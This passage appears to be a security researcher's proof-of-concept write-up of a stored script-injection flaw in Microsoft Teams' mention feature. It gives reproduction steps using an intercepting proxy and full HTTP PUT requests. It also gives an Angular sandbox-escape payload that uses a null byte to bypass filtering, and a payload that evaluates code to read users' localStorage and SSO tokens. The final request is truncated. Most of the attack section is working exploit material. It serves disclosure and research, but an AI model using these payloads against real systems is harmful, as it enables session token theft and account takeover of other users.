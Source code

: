 ## Steps to reproduce

1. Type a chat message in either direct communication or channel, mention a user or a custom tag within this chat

2. Edit the chat message containing the mention and intercept with a HTTP proxy like Burp Suite

In mention functionality, the vulnerable parameter is `displayName` within the `{ content: "...", properties: { "mentions" : "[{ displayName: PAYLOAD HERE }]"` JSON message structure. 


The request should look something like this, note `displayName`:

```http
PUT /v1/users/ME/conversations/19%3A9bc6400d2fc7443487491898c6803e46%40thread.tacv2/messages/1598607494949 HTTP/1.1
Host: emea.ng.msg.teams.microsoft.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Authentication: skypetoken=...snip...
ClientInfo: os=macos; osVer=10; proc=x86; lcid=en-us; deviceType=1; country=us; clientName=skypeteams; clientVer=1415/1.0.0.2020080725; utcOffset=+03:00
BehaviorOverride: redirectAs404
Content-Length: 1174


{"content":"<div><div>\n<div>\n<div>\n<div>\n<div><span itemscope itemtype=\"http://schema.skype.com/Mention\" itemid=\"0\">dada</span></div>\n</div>\n</div>\n</div>\n</div>\n</div>","messagetype":"RichText/Html","contenttype":"text","amsreferences":[],"clientmessageid":"9868848366534370000","imdisplayname":"Oskars Vegeris","properties":{"importance":"","subject":null,"mentions":"[{\"@type\":\"http://schema.skype.com/Mention\",\"itemid\":0,\"tagId\":\"tHab2TLzpa\",\"mri\":\"tHab2TLzpa\",\"mentionType\":\"tag\",\"displayName\":\"x marks the spot\"}]"}}
```

angular expression filtering can be bypassed by injecting a nullbyte char in unicode `\u0000`, e.g. 

```
{{3*333}\u0000}
```  

To access user's local storage and all SSO tokens, use this payload within `displayName` in the above HTTP PUT request.

```
{{['if(typeof onetime==`undefined`){onetime=1;console.log(localStorage);}'].forEach($root.$$childHead.$$nextSibling.app.$window.eval)}\u0000}
```

Full HTTP request for SSO token logging:
```http
PUT /v1/users/ME/conversations/19%3A9bc6400d2fc7443487491898c6803e46%40thread.tacv2/messages/1598607494949 HTTP/1.1
Host: emea.ng.msg.teams.microsoft.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Authentication: skypetoken=...snip...
ClientInfo: os=macos; osVer=10; proc=x86; lcid=en-us; deviceType=1; country=us; clientName=skypeteams; clientVer=1415/1.0.0.2020080725; utcOffset=+03:00
BehaviorOverride: redirectAs404
Content-Length: 1174


```